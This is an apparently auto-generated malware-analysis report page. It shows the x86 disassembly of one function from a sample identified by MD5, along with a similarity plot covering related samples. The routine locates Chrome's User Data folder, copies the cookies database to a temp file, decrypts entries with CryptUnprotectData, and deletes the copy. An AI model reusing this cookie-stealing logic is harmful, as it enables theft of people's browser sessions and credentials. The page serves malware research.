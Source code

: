 ```yaml
---
layout: post
title:  "fcn.00473bc1 @ 152885a790b99953ce23874f0947b7bd"
date:   2021-09-10 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** fcn.00473bc1
- **Origin (md5):** 152885a790b99953ce23874f0947b7bd
- **VirusTotal:** [virustotal.com/gui/file/152885a790b99953ce23874f0947b7bd][virustotal_ref]

# Code Tags
<span class="tag" id="FILE">FILE</span>


# Behaviour Tags
<span class="bhv-tag" id="na">N/A</span>

# Similar Functions
<script type="text/javascript" src="https://www.gstatic.com/charts/loader.js"></script>
<script type="text/javascript">

    google.charts.load('current', {'packages':['corechart']});
    google.charts.setOnLoadCallback(drawChart);

    function drawChart() {
    var data = new google.visualization.DataTable();
        data.addColumn('number', 'X');
        data.addColumn('number', 'Y');
        data.addColumn({type: 'string', role: 'tooltip', 'p': {'html': true}});
        data.addColumn({'type': 'string', 'role': 'style'});
        
        data.addRows([
    [-4432.32666015625, -65.89412689208984, '<b><a href="/report/fcn.00473bc1@152885a790b99953ce23874f0947b7bd">fcn.00473bc1</a><br>@152885a790b99953ce23874f0947b7bd</b><br>push 0xe7c<br>mov eax, 0x49ab4c<br>call fcn.00481ea4<br>mov edi, ecx<br>lea eax, [ebp-0x424]<br>mov dword[ebp-0xda4], edi<br>push eax<br>xor esi, esi<br>push esi<br>push esi<br>push 0x801c<br>push esi<br>call dword[sym.imp.SHELL32.dll_SHGetFolderPathW]<br>test eax, eax<br>js 0x473f85<br>mov ebx, dword[sym.imp.SHLWAPI.dll_PathAppendW]<br>lea eax, [ebp-0x424]<br>push str.GoogleChromeUser_Data<br>push eax<br>call ebx<br>lea eax, [ebp-0x424]<br>push eax<br>lea eax, [ebp-0x834]<br>push 0x104<br>push eax<br>call fcn.00481a97<br>add esp, 0xc<br>lea eax, [ebp-0x834]<br>push 0x4ae8d0<br>push eax<br>call ebx<br>lea eax, [ebp-0x834]<br>xorps xmm0, xmm0<br>push eax<br>lea ecx, [ebp-0xd98]<br>movlpd qword[ebp-0xdb4], xmm0<br>call fcn.00473a35<br>mov dword[ebp-4], esi<br>lea ecx, [ebp-0xd98]<br>call fcn.00473a57<br>lea ecx, [ebp-0xd98]<br>test al, al<br>je 0x473f80<br>call fcn.0040547a<br>test byte[eax], 0x10<br>je 0x473c54<br>lea ebx, [eax+0x2c]<br>push 0x4ae754<br>push ebx<br>call fcn.00481af3<br>pop ecx<br>pop ecx<br>test eax, eax<br>je 0x473c54<br>push 0x4ae758<br>push ebx<br>call fcn.00481af3<br>pop ecx<br>pop ecx<br>test eax, eax<br>je 0x473c54<br>lea eax, [ebp-0x424]<br>push eax<br>lea eax, [ebp-0x21c]<br>push 0x104<br>push eax<br>call fcn.00481a97<br>add esp, 0xc<br>lea eax, [ebp-0x21c]<br>push ebx<br>mov ebx, dword[sym.imp.SHLWAPI.dll_PathAppendW]<br>push eax<br>call ebx<br>push str.cookies<br>lea eax, [ebp-0x21c]<br>push eax<br>call ebx<br>lea eax, [ebp-0xa3c]<br>push eax<br>push 0x104<br>call dword[sym.imp.KERNEL32.dll_GetTempPathW]<br>lea eax, [ebp-0x62c]<br>push eax<br>push esi<br>push 0x4ae770<br>lea eax, [ebp-0xa3c]<br>push eax<br>call dword[sym.imp.KERNEL32.dll_GetTempFileNameW]<br>push esi<br>lea eax, [ebp-0x62c]<br>push eax<br>lea eax, [ebp-0x21c]<br>push eax<br>call dword[sym.imp.KERNEL32.dll_CopyFileW]<br>test eax, eax<br>je 0x473f6e<br>lea ecx, [ebp-0xabc]<br>call fcn.00473faa<br>lea eax, [ebp-0x62c]<br>mov byte[ebp-4], 2<br>push eax<br>lea ecx, [ebp-0xb40]<br>call fcn.00404fdb<br>mov ecx, eax<br>mov byte[ebp-4], 3<br>call fcn.00404b49<br>push eax<br>lea ecx, [ebp-0xe88]<br>call fcn.0041d750<br>lea ecx, [ebp-0xb40]<br>mov byte[ebp-4], 5<br>call fcn.0040501c<br>push ecx<br>lea eax, [ebp-0xe88]<br>push eax<br>lea ecx, [ebp-0xdc8]<br>call fcn.0041da8e<br>lea eax, [ebp-0xda0]<br>mov byte[ebp-4], 6<br>push eax<br>lea ecx, [ebp-0xdc8]<br>call fcn.0041daa4<br>lea eax, [ebp-0xde0]<br>push eax<br>call fcn.0041dab7<br>mov edx, eax<br>lea ecx, [ebp-0xda0]<br>call fcn.0047517d<br>test al, al<br>je 0x473f07<br>push esi<br>lea eax, [ebp-0xa6c]<br>push eax<br>lea eax, [ebp-0xdd4]<br>push eax<br>lea ecx, [ebp-0xda0]<br>call fcn.00474e8e<br>mov ecx, eax<br>call fcn.00475197<br>push ecx<br>lea eax, [ebp-0xdcc]<br>mov byte[ebp-4], 7<br>push eax<br>lea ecx, [ebp-0xda0]<br>call fcn.00474e8e<br>mov ecx, eax<br>call fcn.004751c4<br>mov ebx, eax<br>lea eax, [ebp-0xdd0]<br>push ecx<br>push eax<br>lea ecx, [ebp-0xda0]<br>call fcn.00474e8e<br>mov ecx, eax<br>call fcn.0041d96d<br>mov dword[ebp-0xdbc], eax<br>lea eax, [ebp-0xdac]<br>push eax<br>push 1<br>push esi<br>push esi<br>push esi<br>push esi<br>lea eax, [ebp-0xdbc]<br>mov dword[ebp-0xdb8], ebx<br>push eax<br>call dword[sym.imp.CRYPT32.dll_CryptUnprotectData]<br>test eax, eax<br>je 0x473ee8<br>push 2<br>lea eax, [ebp-0xa54]<br>push eax<br>lea eax, [ebp-0xdd8]<br>push eax<br>lea ecx, [ebp-0xda0]<br>call fcn.00474e8e<br>mov ecx, eax<br>call fcn.00475197<br>mov byte[ebp-4], 8<br>lea ecx, [ebp-0xa84]<br>push dword[ebp-0xdac]<br>push dword[ebp-0xda8]<br>call fcn.0040a731<br>push ecx<br>lea ecx, [edi+6]<br>mov byte[ebp-4], 9<br>push ecx<br>lea ecx, [ebp-0xdb4]<br>push ecx<br>mov ecx, eax<br>call fcn.0040b51d<br>push eax<br>lea ecx, [ebp-0xa6c]<br>call fcn.0040b51d<br>push eax<br>call fcn.0047fccc<br>pop ecx<br>push edx<br>push eax<br>lea ecx, [ebp-0xa54]<br>call fcn.0040b51d<br>push eax<br>lea ecx, [ebp-0xabc]<br>call fcn.00473ab8<br>lea ecx, [ebp-0xa84]<br>mov bl, al<br>call fcn.0040b62f<br>test bl, bl<br>je 0x473ecd<br>mov byte[edi+5], 1<br>lea ecx, [ebp-0xa54]<br>mov byte[ebp-4], 7<br>call fcn.0040b62f<br>push dword[ebp-0xda8]<br>call dword[sym.imp.KERNEL32.dll_LocalFree]<br>lea ecx, [ebp-0xa6c]<br>mov byte[ebp-4], 6<br>call fcn.0040b62f<br>lea ecx, [ebp-0xda0]<br>call fcn.00474ea7<br>jmp 0x473d8e<br>push ecx<br>lea eax, [edi+6]<br>push eax<br>lea eax, [ebp-0xdb4]<br>push eax<br>push 0x4a3288<br>push esi<br>push esi<br>push 0x4a3288<br>lea ecx, [ebp-0xabc]<br>call fcn.00473ab8<br>test al, al<br>je 0x473f32<br>mov byte[edi+5], 1<br>lea ecx, [ebp-0xdc8]<br>mov byte[ebp-4], 5<br>call fcn.00473fd9<br>lea ecx, [ebp-0xe88]<br>mov byte[ebp-4], 2<br>call fcn.0041d7ec<br>lea ecx, [ebp-0xabc]<br>call fcn.00473fc6<br>jmp 0x473f6b<br>mov dword[ebp-4], esi<br>lea eax, [ebp-0x62c]<br>push eax<br>call dword[sym.imp.KERNEL32.dll_DeleteFileW]<br>jmp 0x473c54<br>call fcn.00473a97<br>call fcn.00481df6<br>ret <br><eoc> ', 'point { fill-color: #e0440e; }'],
[221.6951141357422, -1518.6258544921875, '<b><a href="/report/fcn.00473bc1@912f1d013a0d6151bc7a7cef6da1b2a0">fcn.00473bc1</a><br>@912f1d013a0d6151bc7a7cef6da1b2a0</b><br>push 0xe7c<br>mov eax, 0x49ab4c<br>call fcn.00481ea4<br>mov edi, ecx<br>lea eax, [ebp-0x424]<br>mov dword[ebp-0xda4], edi<br>push eax<br>xor esi, esi<br>push esi<br>push esi<br>push 0x801c<br>push esi<br>call dword[sym.imp.SHELL32.dll_SHGetFolderPathW]<br>test eax, eax<br>js 0x473f85<br>mov ebx, dword[sym.imp.SHLWAPI.dll_PathAppendW]<br>lea eax, [ebp-0x424]<br>push str.GoogleChromeUser_Data<br>push eax<br>call ebx<br>lea eax, [ebp-0x424]<br>push eax<br>lea eax, [ebp-0x834]<br>push 0x104<br>push eax<br>call fcn.00481a97<br>add esp, 0xc<br>lea eax, [ebp-0x834]<br>push 0x4ae8d0<br>push eax<br>call ebx<br>lea eax, [ebp-0x834]<br>xorps xmm0, xmm0<br>push eax<br>lea ecx, [ebp-0xd98]<br>movlpd qword[ebp-0xdb4], xmm0<br>call fcn.00473a35<br>mov dword[ebp-4], esi<br>lea ecx, [ebp-0xd98]<br>call fcn.00473a57<br>lea ecx, [ebp-0xd98]<br>test al, al<br>je 0x473f80<br>call fcn.0040547a<br>test byte[eax], 0x10<br>je 0x473c54<br>lea ebx, [eax+0x2c]<br>push 0x4ae754<br>push ebx<br>call fcn.00481af3<br>pop ecx<br>pop ecx<br>test eax, eax<br>je 0x473c54<br>push 0x4ae758<br>push ebx<br>call fcn.00481af3<br>pop ecx<br>pop ecx<br>test eax, eax<br>je 0x473c54<br>lea eax, [ebp-0x424]<br>push eax<br>lea eax, [ebp-0x21c]<br>push 0x104<br>push eax<br>call fcn.00481a97<br>add esp, 0xc<br>lea eax, [ebp-0x21c]<br>push ebx<br>mov ebx, dword[sym.imp.SHLWAPI.dll_PathAppendW]<br>push eax<br>call ebx<br>push str.cookies<br>lea eax, [ebp-0x21c]<br>push eax<br>call ebx<br>lea eax, [ebp-0xa3c]<br>push eax<br>push 0x104<br>call dword[sym.imp.KERNEL32.dll_GetTempPathW]<br>lea eax, [ebp-0x62c]<br>push eax<br>push esi<br>push 0x4ae770<br>lea eax, [ebp-0xa3c]<br>push eax<br>call dword[sym.imp.KERNEL32.dll_GetTempFileNameW]<br>push esi<br>lea eax, [ebp-0x62c]<br>push eax<br>lea eax, [ebp-0x21c]<br>push eax<br>call dword[sym.imp.KERNEL32.dll_CopyFileW]<br>test eax, eax<br>je 0x473f6e<br>lea ecx, [ebp-0xabc]<br>call fcn.00473faa<br>lea eax, [ebp-0x62c]<br>mov byte[ebp-4], 2<br>push eax<br>lea ecx, [ebp-0xb40]<br>call fcn.00404fdb<br>mov ecx, eax<br>mov byte[ebp-4], 3<br>call fcn.00404b49<br>push eax<br>lea ecx, [ebp-0xe88]<br>call fcn.0041d750<br>lea ecx, [ebp-0xb40]<br>mov byte[ebp-4], 5<br>call fcn.0040501c<br>push ecx<br>lea eax, [ebp-0xe88]<br>push eax<br>lea ecx, [ebp-0xdc8]<br>call fcn.0041da8e<br>lea eax, [ebp-0xda0]<br>mov byte[ebp-4], 6<br>push eax<br>lea ecx, [ebp-0xdc8]<br>call fcn.0041daa4<br>lea eax, [ebp-0xde0]<br>push eax<br>call fcn.0041dab7<br>mov edx, eax<br>lea ecx, [ebp-0xda0]<br>call fcn.0047517d<br>test al, al<br>je 0x473f07<br>push esi<br>lea eax, [ebp-0xa6c]<br>push eax<br>lea eax, [ebp-0xdd4]<br>push eax<br>lea ecx, [ebp-0xda0]<br>call fcn.00474e8e<br>mov ecx, eax<br>call fcn.00475197<br>push ecx<br>lea eax, [ebp-0xdcc]<br>mov byte[ebp-4], 7<br>push eax<br>lea ecx, [ebp-0xda0]<br>call fcn.00474e8e<br>mov ecx, eax<br>call fcn.004751c4<br>mov ebx, eax<br>lea eax, [ebp-0xdd0]<br>push ecx<br>push eax<br>lea ecx, [ebp-0xda0]<br>call fcn.00474e8e<br>mov ecx, eax<br>call fcn.0041d96d<br>mov dword[ebp-0xdbc], eax<br>lea eax, [ebp-0xdac]<br>push eax<br>push 1<br>push esi<br>push esi<br>push esi<br>push esi<br>lea eax, [ebp-0xdbc]<br>mov dword[ebp-0xdb8], ebx<br>push eax<br>call dword[sym.imp.CRYPT32.dll_CryptUnprotectData]<br>test eax, eax<br>je 0x473ee8<br>push 2<br>lea eax, [ebp-0xa54]<br>push eax<br>lea eax, [ebp-0xdd8]<br>push eax<br>lea ecx, [ebp-0xda0]<br>call fcn.00474e8e<br>mov ecx, eax<br>call fcn.00475197<br>mov byte[ebp-4], 8<br>lea ecx, [ebp-0xa84]<br>push dword[ebp-0xdac]<br>push dword[ebp-0xda8]<br>call fcn.0040a731<br>push ecx<br>lea ecx, [edi+6]<br>mov byte[ebp-4], 9<br>push ecx<br>lea ecx, [ebp-0xdb4]<br>push ecx<br>mov ecx, eax<br>call fcn.0040b51d<br>push eax<br>lea ecx, [ebp-0xa6c]<br>call fcn.0040b51d<br>push eax<br>call fcn.0047fccc<br>pop ecx<br>push edx<br>push eax<br>lea ecx, [ebp-0xa54]<br>call fcn.0040b51d<br>push eax<br>lea ecx, [ebp-0xabc]<br>call fcn.00473ab8<br>lea ecx, [ebp-0xa84]<br>mov bl, al<br>call fcn.0040b62f<br>test bl, bl<br>je 0x473ecd<br>mov byte[edi+5], 1<br>lea ecx, [ebp-0xa54]<br>mov byte[ebp-4], 7<br>call fcn.0040b62f<br>push dword[ebp-0xda8]<br>call dword[sym.imp.KERNEL32.dll_LocalFree]<br>lea ecx, [ebp-0xa6c]<br>mov byte[ebp-4], 6<br>call fcn.0040b62f<br>lea ecx, [ebp-0xda0]<br>call fcn.00474ea7<br>jmp 0x473d8e<br>push ecx<br>lea eax, [edi+6]<br>push eax<br>lea eax, [ebp-0xdb4]<br>push eax<br>push 0x4a3288<br>push esi<br>push esi<br>push 0x4a3288<br>lea ecx, [ebp-0xabc]<br>call fcn.00473ab8<br>test al, al<br>je 0x473f32<br>mov byte[edi+5], 1<br>lea ecx, [ebp-0xdc8]<br>mov byte[ebp-4], 5<br>call fcn.00473fd9<br>lea ecx, [ebp-0xe88]<br>mov byte[ebp-4], 2<br>call fcn.0041d7ec<br>lea ecx, [ebp-0xabc]<br>call fcn.00473fc6<br>jmp 0x473f6b<br>mov dword[ebp-4], esi<br>lea eax, [ebp-0x62c]<br>push eax<br>call dword[sym.imp.KERNEL32.dll_DeleteFileW]<br>jmp 0x473c54<br>call fcn.00473a97<br>call fcn.00481df6<br>ret <br><eoc> ', 'null'],
[3267.47021484375, 2375.938720703125, '<b><a href="/report/fcn.00473bc1@fb9b7d22bc1c143ac66b0575cbdd088d">fcn.00473bc1</a><br>@fb9b7d22bc1c143ac66b0575cbdd088d</b><br>push 0xe7c<br>mov eax, 0x49ab4c<br>call fcn.00481ea4<br>mov edi, ecx<br>lea eax, [ebp-0x424]<br>mov dword[ebp-0xda4], edi<br>push eax<br>xor esi, esi<br>push esi<br>push esi<br>push 0x801c<br>push esi<br>call dword[sym.imp.SHELL32.dll_SHGetFolderPathW]<br>test eax, eax<br>js 0x473f85<br>mov ebx, dword[sym.imp.SHLWAPI.dll_PathAppendW]<br>lea eax, [ebp-0x424]<br>push str.GoogleChromeUser_Data<br>push eax<br>call ebx<br>lea eax, [ebp-0x424]<br>push eax<br>lea eax, [ebp-0x834]<br>push 0x104<br>push eax<br>call fcn.00481a97<br>add esp, 0xc<br>lea eax, [ebp-0x834]<br>push 0x4ae8d0<br>push eax<br>call ebx<br>lea eax, [ebp-0x834]<br>xorps xmm0, xmm0<br>push eax<br>lea ecx, [ebp-0xd98]<br>movlpd qword[ebp-0xdb4], xmm0<br>call fcn.00473a35<br>mov dword[ebp-4], esi<br>lea ecx, [ebp-0xd98]<br>call fcn.00473a57<br>lea ecx, [ebp-0xd98]<br>test al, al<br>je 0x473f80<br>call fcn.0040547a<br>test byte[eax], 0x10<br>je 0x473c54<br>lea ebx, [eax+0x2c]<br>push 0x4ae754<br>push ebx<br>call fcn.00481af3<br>pop ecx<br>pop ecx<br>test eax, eax<br>je 0x473c54<br>push 0x4ae758<br>push ebx<br>call fcn.00481af3<br>pop ecx<br>pop ecx<br>test eax, eax<br>je 0x473c54<br>lea eax, [ebp-0x424]<br>push eax<br>lea eax, [ebp-0x21c]<br>push 0x104<br>push eax<br>call fcn.00481a97<br>add esp, 0xc<br>lea eax, [ebp-0x21c]<br>push ebx<br>mov ebx, dword[sym.imp.SHLWAPI.dll_PathAppendW]<br>push eax<br>call ebx<br>push str.cookies<br>lea eax, [ebp-0x21c]<br>push eax<br>call ebx<br>lea eax, [ebp-0xa3c]<br>push eax<br>push 0x104<br>call dword[sym.imp.KERNEL32.dll_GetTempPathW]<br>lea eax, [ebp-0x62c]<br>push eax<br>push esi<br>push 0x4ae770<br>lea eax, [ebp-0xa3c]<br>push eax<br>call dword[sym.imp.KERNEL32.dll_GetTempFileNameW]<br>push esi<br>lea eax, [ebp-0x62c]<br>push eax<br>lea eax, [ebp-0x21c]<br>push eax<br>call dword[sym.imp.KERNEL32.dll_CopyFileW]<br>test eax, eax<br>je 0x473f6e<br>lea ecx, [ebp-0xabc]<br>call fcn.00473faa<br>lea eax, [ebp-0x62c]<br>mov byte[ebp-4], 2<br>push eax<br>lea ecx, [ebp-0xb40]<br>call fcn.00404fdb<br>mov ecx, eax<br>mov byte[ebp-4], 3<br>call fcn.00404b49<br>push eax<br>lea ecx, [ebp-0xe88]<br>call fcn.0041d750<br>lea ecx, [ebp-0xb40]<br>mov byte[ebp-4], 5<br>call fcn.0040501c<br>push ecx<br>lea eax, [ebp-0xe88]<br>push eax<br>lea ecx, [ebp-0xdc8]<br>call fcn.0041da8e<br>lea eax, [ebp-0xda0]<br>mov byte[ebp-4], 6<br>push eax<br>lea ecx, [ebp-0xdc8]<br>call fcn.0041daa4<br>lea eax, [ebp-0xde0]<br>push eax<br>call fcn.0041dab7<br>mov edx, eax<br>lea ecx, [ebp-0xda0]<br>call fcn.0047517d<br>test al, al<br>je 0x473f07<br>push esi<br>lea eax, [ebp-0xa6c]<br>push eax<br>lea eax, [ebp-0xdd4]<br>push eax<br>lea ecx, [ebp-0xda0]<br>call fcn.00474e8e<br>mov ecx, eax<br>call fcn.00475197<br>push ecx<br>lea eax, [ebp-0xdcc]<br>mov byte[ebp-4], 7<br>push eax<br>lea ecx, [ebp-0xda0]<br>call fcn.00474e8e<br>mov ecx, eax<br>call fcn.004751c4<br>mov ebx, eax<br>lea eax, [ebp-0xdd0]<br>push ecx<br>push eax<br>lea ecx, [ebp-0xda0]<br>call fcn.00474e8e<br>mov ecx, eax<br>call fcn.0041d96d<br>mov dword[ebp-0xdbc], eax<br>lea eax, [ebp-0xdac]<br>push eax<br>push 1<br>push esi<br>push esi<br>push esi<br>push esi<br>lea eax, [ebp-0xdbc]<br>mov dword[ebp-0xdb8], ebx<br>push eax<br>call dword[sym.imp.CRYPT32.dll_CryptUnprotectData]<br>test eax, eax<br>je 0x473ee8<br>push 2<br>lea eax, [ebp-0xa54]<br>push eax<br>lea eax, [ebp-0xdd8]<br>push eax<br>lea ecx, [ebp-0xda0]<br>call fcn.00474e8e<br>mov ecx, eax<br>call fcn.00475197<br>mov byte[ebp-4], 8<br>lea ecx, [ebp-0xa84]<br>push dword[ebp-0xdac]<br>push dword[ebp-0xda8]<br>call fcn.0040a731<br>push ecx<br>lea ecx, [edi+6]<br>mov byte[ebp-4], 9<br>push ecx<br>lea ecx, [ebp-0xdb4]<br>push ecx<br>mov ecx, eax<br>call fcn.0040b51d<br>push eax<br>lea ecx, [ebp-0xa6c]<br>call fcn.0040b51d<br>push eax<br>call fcn.0047fccc<br>pop ecx<br>push edx<br>push eax<br>lea ecx, [ebp-0xa54]<br>call fcn.0040b51d<br>push eax<br>lea ecx, [ebp-0xabc]<br>call fcn.00473ab8<br>lea ecx, [ebp-0xa84]<br>mov bl, al<br>call fcn.0040b62f<br>test bl, bl<br>je 0x473ecd<br>mov byte[edi+5], 1<br>lea ecx, [ebp-0xa54]<br>mov byte[ebp-4], 7<br>call fcn.0040b62f<br>push dword[ebp-0xda8]<br>call dword[sym.imp.KERNEL32.dll_LocalFree]<br>lea ecx, [ebp-0xa6c]<br>mov byte[ebp-4], 6<br>call fcn.0040b62f<br>lea ecx, [ebp-0xda0]<br>call fcn.00474ea7<br>jmp 0x473d8e<br>push ecx<br>lea eax, [edi+6]<br>push eax<br>lea eax, [ebp-0xdb4]<br>push eax<br>push 0x4a3288<br>push esi<br>push esi<br>push 0x4a3288<br>lea ecx, [ebp-0xabc]<br>call fcn.00473ab8<br>test al, al<br>je 0x473f32<br>mov byte[edi+5], 1<br>lea ecx, [ebp-0xdc8]<br>mov byte[ebp-4], 5<br>call fcn.00473fd9<br>lea ecx, [ebp-0xe88]<br>mov byte[ebp-4], 2<br>call fcn.0041d7ec<br>lea ecx, [ebp-0xabc]<br>call fcn.00473fc6<br>jmp 0x473f6b<br>mov dword[ebp-4], esi<br>lea eax, [ebp-0x62c]<br>push eax<br>call dword[sym.imp.KERNEL32.dll_DeleteFileW]<br>jmp 0x473c54<br>call fcn.00473a97<br>call fcn.00481df6<br>ret <br><eoc> ', 'null'],

        ]);

    var options = {
        title: 'Similarity Plot',
        legend: 'none',
        colors: ['#dedbd9', '#e6693e', '#ec8f6e', '#f3b49f', '#f6c7b6'],
        tooltip: {isHtml: true, trigger: 'both'},
        explorer: {
        actions: ["dragToZoom", "rightClickToReset"],
        },
        chartArea: {
        width: '80%',
        height: '80%'
        },
        width: '100%',
        height: '100%'
    };

    var chart = new google.visualization.ScatterChart(document.getElementById('chart_div'));

    chart.draw(data, options);
    }
    
</script>


<div id="chart_div" style="width: 100%px; height: 100%;"></div>

# Disassembled Code
{% highlight nasm %}

push 0xe7c
mov eax, 0x49ab4c
call fcn.00481ea4
mov edi, ecx
lea eax, [ebp-0x424]
mov dword[ebp-0xda4], edi
push eax
xor esi, esi
push esi
push esi
push 0x801c
push esi
call dword[sym.imp.SHELL32.dll_SHGetFolderPathW]
test eax, eax
js 0x473f85
mov ebx, dword[sym.imp.SHLWAPI.dll_PathAppendW]
lea eax, [ebp-0x424]
push str.GoogleChromeUser_Data
push eax
call ebx
lea eax, [ebp-0x424]
push eax
lea eax, [ebp-0x834]
push 0x104
push eax
call fcn.00481a97
add esp, 0xc
lea eax, [ebp-0x834]
push 0x4ae8d0
push eax
call ebx
lea eax, [ebp-0x834]
xorps xmm0, xmm0
push eax
lea ecx, [ebp-0xd98]
movlpd qword[ebp-0xdb4], xmm0
call fcn.00473a35
mov dword[ebp-4], esi
lea ecx, [ebp-0xd98]
call fcn.00473a57
lea ecx, [ebp-0xd98]
test al, al
je 0x473f80
call fcn.0040547a
test byte[eax], 0x10
je 0x473c54
lea ebx, [eax+0x2c]
push 0x4ae754
push ebx
call fcn.00481af3
pop ecx
pop ecx
test eax, eax
je 0x473c54
push 0x4ae758
push ebx
call fcn.00481af3
pop ecx
pop ecx
test eax, eax
je 0x473c54
lea eax, [ebp-0x424]
push eax
lea eax, [ebp-0x21c]
push 0x104
push eax
call fcn.00481a97
add esp, 0xc
lea eax, [ebp-0x21c]
push ebx
mov ebx, dword[sym.imp.SHLWAPI.dll_PathAppendW]
push eax
call ebx
push str.cookies
lea eax, [ebp-0x21c]
push eax
call ebx
lea eax, [ebp-0xa3c]
push eax
push 0x104
call dword[sym.imp.KERNEL32.dll_GetTempPathW]
lea eax, [ebp-0x62c]
push eax
push esi
push 0x4ae770
lea eax, [ebp-0xa3c]
push eax
call dword[sym.imp.KERNEL32.dll_GetTempFileNameW]
push esi
lea eax, [ebp-0x62c]
push eax
lea eax, [ebp-0x21c]
push eax
call dword[sym.imp.KERNEL32.dll_CopyFileW]
test eax, eax
je 0x473f6e
lea ecx, [ebp-0xabc]
call fcn.00473faa
lea eax, [ebp-0x62c]
mov byte[ebp-4], 2
push eax
lea ecx, [ebp-0xb40]
call fcn.00404fdb
mov ecx, eax
mov byte[ebp-4], 3
call fcn.00404b49
push eax
lea ecx, [ebp-0xe88]
call fcn.0041d750
lea ecx, [ebp-0xb40]
mov byte[ebp-4], 5
call fcn.0040501c
push ecx
lea eax, [ebp-0xe88]
push eax
lea ecx, [ebp-0xdc8]
call fcn.0041da8e
lea eax, [ebp-0xda0]
mov byte[ebp-4], 6
push eax
lea ecx, [ebp-0xdc8]
call fcn.0041daa4
lea eax, [ebp-0xde0]
push eax
call fcn.0041dab7
mov edx, eax
lea ecx, [ebp-0xda0]
call fcn.0047517d
test al, al
je 0x473f07
push esi
lea eax, [ebp-0xa6c]
push eax
lea eax, [ebp-0xdd4]
push eax
lea ecx, [ebp-0xda0]
call fcn.00474e8e
mov ecx, eax
call fcn.00475197
push ecx
lea eax, [ebp-0xdcc]
mov byte[ebp-4], 7
push eax
lea ecx, [ebp-0xda0]
call fcn.00474e8e
mov ecx, eax
call fcn.004751c4
mov ebx, eax
lea eax, [ebp-0xdd0]
push ecx
push eax
lea ecx, [ebp-0xda0]
call fcn.00474e8e
mov ecx, eax
call fcn.0041d96d
mov dword[ebp-0xdbc], eax
lea eax, [ebp-0xdac]
push eax
push 1
push esi
push esi
push esi
push esi
lea eax, [ebp-0xdbc]
mov dword[ebp-0xdb8], ebx
push eax
call dword[sym.imp.CRYPT32.dll_CryptUnprotectData]
test eax, eax
je 0x473ee8
push 2
lea eax, [ebp-0xa54]
push eax
lea eax, [ebp-0xdd8]
push eax
lea ecx, [ebp-0xda0]
call fcn.00474e8e
mov ecx, eax
call fcn.00475197
mov byte[ebp-4], 8
lea ecx, [ebp-0xa84]
push dword[ebp-0xdac]
push dword[ebp-0xda8]
call fcn.0040a731
push ecx
lea ecx, [edi+6]
mov byte[ebp-4], 9
push ecx
lea ecx, [ebp-0xdb4]
push ecx
mov ecx, eax
call fcn.0040b51d
push eax
lea ecx, [ebp-0xa6c]
call fcn.0040b51d
push eax
call fcn.0047fccc
pop ecx
push edx
push eax
lea ecx, [ebp-0xa54]
call fcn.0040b51d
push eax
lea ecx, [ebp-0xabc]
call fcn.00473ab8
lea ecx, [ebp-0xa84]
mov bl, al
call fcn.0040b62f
test bl, bl
je 0x473ecd
mov byte[edi+5], 1
lea ecx, [ebp-0xa54]
mov byte[ebp-4], 7
call fcn.0040b62f
push dword[ebp-0xda8]
call dword[sym.imp.KERNEL32.dll_LocalFree]
lea ecx, [ebp-0xa6c]
mov byte[ebp-4], 6
call fcn.0040b62f
lea ecx, [ebp-0xda0]
call fcn.00474ea7
jmp 0x473d8e
push ecx
lea eax, [edi+6]
push eax
lea eax, [ebp-0xdb4]
push eax
push 0x4a3288
push esi
push esi
push 0x4a3288
lea ecx, [ebp-0xabc]
call fcn.00473ab8
test al, al
je 0x473f32
mov byte[edi+5], 1
lea ecx, [ebp-0xdc8]
mov byte[ebp-4], 5
call fcn.00473fd9
lea ecx, [ebp-0xe88]
mov byte[ebp-4], 2
call fcn.0041d7ec
lea ecx, [ebp-0xabc]
call fcn.00473fc6
jmp 0x473f6b
mov dword[ebp-4], esi
lea eax, [ebp-0x62c]
push eax
call dword[sym.imp.KERNEL32.dll_DeleteFileW]
jmp 0x473c54
call fcn.00473a97
call fcn.00481df6
ret

{% endhighlight %}

[virustotal_ref]: https://www.virustotal.com/gui/file/152885a790b99953ce23874f0947b7bd